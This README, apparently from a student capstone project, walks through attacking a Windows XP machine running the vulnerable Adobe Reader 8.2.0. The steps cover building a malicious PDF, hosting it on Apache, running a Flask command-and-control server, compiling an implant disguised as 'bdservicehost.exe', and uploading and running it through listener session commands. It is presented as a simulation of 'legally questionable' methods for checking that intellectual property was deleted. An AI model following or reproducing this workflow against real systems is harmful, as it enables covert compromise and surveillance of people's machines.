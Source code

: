 # CyberEffects_IPDIMG
CyberEffects Capstone - Intellectual Property Defense via Illegal Methods Group (IPDIMG)

This is a simulation of a legally questionable way of determining whether intellectual property was not properly deleted after employment termination. Our capstone utilizes a vulnerability in Adobe Reader ver. 8.2.0 where payloads can be embedded into a .pdf file, and executed once opened in the vulnerable PDF reader. With this initial

## Vulnerable Target

Windows XP OS with Adobe Reader ver. 8.2.0 installed

Link to the vulnerable Adobe Reader ver. 8.2.0 [here](http://www.oldversion.com/windows/acrobat-reader-8-2-0)

Free Windows XP .iso file [here](https://eprebys.faculty.ucdavis.edu/2020/04/08/installing-windows-xp-in-virtualbox-or-other-vm/#:~:text=The%20product%20key%20is%20now,Mac%20can%20be%20found%20here.)

## Setting up Apache2 server to host malicious PDF

1. Install apache2

2. Copy the index.html to the '/var/www/html' directory

3. Run 'sudo systemctl start apache2' to start the server

4. File can be downloaded at http://***(host network IP)***:80

          Use 'ip addr show' and locate the host network IP

## Setting up vsftpd for the Apache2 server file location

Follow the following videos in order

1. Set up vsftpd [here](https://youtu.be/1WVBC0KBOeE?list=PLeiTQKKRIIRqCkCFe-xL8ohp5Euh8Jxqd)

2. Securing FTP server [here](https://youtu.be/N7hwrPiji3c?list=PLeiTQKKRIIRqCkCFe-xL8ohp5Euh8Jxqd)

3. Upload to Apache2 server using FTP [here](https://youtu.be/Np_OUB4gvc4?list=PLeiTQKKRIIRqCkCFe-xL8ohp5Euh8Jxqd)

**Note** - This has been known to restrict usable ports on the device. Make sure to allow ports 80 and 8080 for the Apache2 PDF download site and Flask server. SSL and firewall has also been known to mess with the implant's ability to reconnect with the FTP server.

          sudo ufw allow 80/tcp
          
          sudo ufw allow 8080/tcp
          
          sudo service apache2 restart

## Setting up and running any of the shell scripts

          chmod +x <script name>

          ./<script name>

## General Steps

1. Begin by generating the malicious PDF and generate encrypted archive file by generating the exe of 'generate_malicious_pdf.sh'.
  
          chmod +x generate_malicious_pdf.sh
  
          ./generate_malicious_pdf.sh
          
2. Set IP for Flask server to the inet IP

          'ifconfig'
          
          Find IP address right after inet
          
          Add inet IP to the app.run(debug=True, host='0.0.0.0', port=8080)

2. Start flask server that is responsible for communicating with implants
          
          Make note of the IP and port that the flask server is running on so that the implants know where to communicate back to 
          
          Make changes to the 'srvip' variable in implant.cs with the srvip that the flask server uses

3. Build the implant.cs into an executable disguised as bdservicehost.exe that runs as a windows executable
          
          Use .Net 4.0 Windows device to build the executable
          
          csc /target:winexe /out:bdservicehost.exe implant.cs

4. Start listener by running the listener.sh script
  
          chmod +x listener.sh
          
          ./listener.sh

5. Download and open the malicious PDF on the target machine

6. Upload the upload_exe.rc file to the target machine via session
  
          sessions -i 1
  
          upload upload_exe.rc
  
7. Run the resource script in order to upload and run the executable
  
          resource upload_exe.rc
